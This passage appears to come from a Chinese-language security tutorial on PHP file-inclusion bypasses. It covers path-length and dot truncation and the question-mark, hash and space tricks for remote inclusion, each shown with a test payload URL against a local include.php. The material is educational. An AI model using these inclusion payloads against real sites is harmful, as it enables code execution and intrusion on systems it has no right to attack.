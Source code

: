 1. magic_quotes_gpc=off

2. PHP<5.3.4

#### 路径长度截断

操作系统存在最大路径长度的限制。可以输入超过最大路径长度的目录，这样系统就会将后面的路径丢弃，导致扩展名截断。

**利用条件**

Windows下目录的最大路径256B

Linux下目录的最大路径长度为4096B（根据服务器操作系统决定）

测试payload：

```
http://127.0.0.1/include.php?filename=1.txt/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```

成功绕过，执行1.txt的内容`<?php echo phpinfo() ?>`。

![image-20220805085949121](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805085949121.png)

#### 点号截断

点号截断适用于Windows系统，当点号的长度大于256B时，就可以造成扩展名截断。

![image-20220805090229043](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805090229043.png)

#### 问号绕过

因为问号会分隔实际的 URL 和参数

`http://127.0.0.1/include.php?filename=http://www.xiaodi8.com/readme.txt?`

![image-20220805091001770](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805091001770.png)

#### ＃号绕过

因为 \# 表示书签

`http://127.0.0.1/include.php?filename=http://www.xiaodi8.com/readme.txt%23`

注意`#`要编码为`%23`

![image-20220805091124899](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805091124899.png)

#### 空格绕过

`http://127.0.0.1/include.php?filename=http://www.xiaodi8.com/readme.txt%20`

注意空格要编码为`%20`

![image-20220805091238408](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805091238408.png)
